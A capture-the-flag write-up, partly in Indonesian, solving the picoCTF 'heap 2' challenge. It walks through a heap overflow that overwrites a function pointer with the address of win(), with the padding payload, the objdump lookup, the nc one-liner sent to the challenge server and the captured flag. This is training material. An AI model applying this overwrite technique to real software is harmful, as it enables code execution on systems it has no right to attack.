 <h1>heap 2</h1>
<h3>Description</h3>
<p>
  Can you handle function pointers?
Download the binary <a href='https://artifacts.picoctf.net/c_mimas/87/chall'>here</a>.
Download the source <a href='https://artifacts.picoctf.net/c_mimas/87/chall.c'>here</a>.
Connect with the challenge instance here:
nc mimas.picoctf.net 49404
</p>
<h3>Solution</h3>
<p>Check pada program terdapat fungsi win() untuk mendapatkan flag, tetapi fungsi tidak dapat dipanggil sesuai alur program, ketika program di eksekusi</p>

```console
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x157f6b0  ->   pico
+-------------+-----------+
[*]   0x157f6d0  ->   bico
```
<p>Pada print heap, space address pico dan bico 32 byte, yang bisa direplace dengan string panjang lebih dari 32 byte</p>
<pre>
  payload='12345678901234567890123456789012pico'
</pre>

```console
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1    
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x157f6b0  ->   12345678901234567890123456789012pico
+-------------+-----------+
[*]   0x157f6d0  ->   pico
```
<p>bico menjadi pico, jadi untuk pemanggilan string pico bisa diganti dengan alamat fungsi win()</p>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# objdump -D chall | grep -i win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```
<pre>
payload = 12345678901234567890123456789012\xa0\x11\x40\x00
</pre>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# echo -e -n "2\n12345678901234567890123456789012\xa0\x11\x40\x00\n4\n" | nc mimas.picoctf.net 49404

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: Data for buffer: 
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_904e3edd}
```

<h3>Flag</h3>
<pre>
picoCTF{and_down_the_road_we_go_904e3edd}
</pre>
